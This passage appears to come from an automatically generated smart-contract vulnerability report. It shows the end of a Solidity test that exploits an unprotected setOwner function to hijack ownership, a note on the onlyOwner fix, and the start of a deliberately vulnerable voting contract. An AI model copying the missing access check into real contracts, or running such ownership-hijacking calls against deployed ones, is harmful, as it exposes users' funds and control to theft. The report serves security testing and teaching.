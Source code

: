 ```solidity
        // ------------------------------------------------------------------
        vm.prank(attacker);
        (bool successAttack, bytes memory dataAttack) = address(vulnerable).call(
            abi.encodeWithSelector(vulnerable.setOwner.selector, attacker)
        );
        require(successAttack, "Attacker call to setOwner failed");
        require(vulnerable.owner() == attacker, "Attack failed: attacker is not the owner");
        emit log_named_address("Owner after attacker call:", vulnerable.owner());

        /*
            Educational Note:
            The vulnerability stems from the absence of an access control check in setOwner.
            To prevent this kind of vulnerability, always restrict sensitive functions using access
            control modifiers such as onlyOwner. For example:

            modifier onlyOwner() {
                require(msg.sender == owner, "Not authorized");
                _;
            }

            function setOwner(address newOwner) external onlyOwner returns (bool) {
                require(newOwner != address(0), "Invalid new owner");
                owner = newOwner;
                return true;
            }
        */
    }
}
```

---

### PoC #2: business_logic

**File:** /Users/advait/Desktop/NTU/fyp-fr/exploit/src/test/PoC_unknown_1742492618.sol

**Execution:** ✅ SUCCESS

**Exploit Code:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./basetest.sol";

/// @title VulnerableVoting - A sample contract with an access control vulnerability for educational purposes.
/// @notice This contract simulates a voting mechanism where the owner can add proposals and extend the voting deadline.
///         However, the setOwner function is unprotected and allows any user to hijack ownership.
contract VulnerableVoting {
    address public owner;
    uint256 public deadline;
    string[] public proposals;

    /// @notice Constructor sets the deployer as owner and initializes the voting deadline.
    constructor(uint256 _initialDeadline) {
        owner = msg.sender;
        deadline = _initialDeadline;
    }

    /// @notice Allows the owner to add a proposal.
    /// @param proposal The proposal description.
    function addProposal(string calldata proposal) external {
```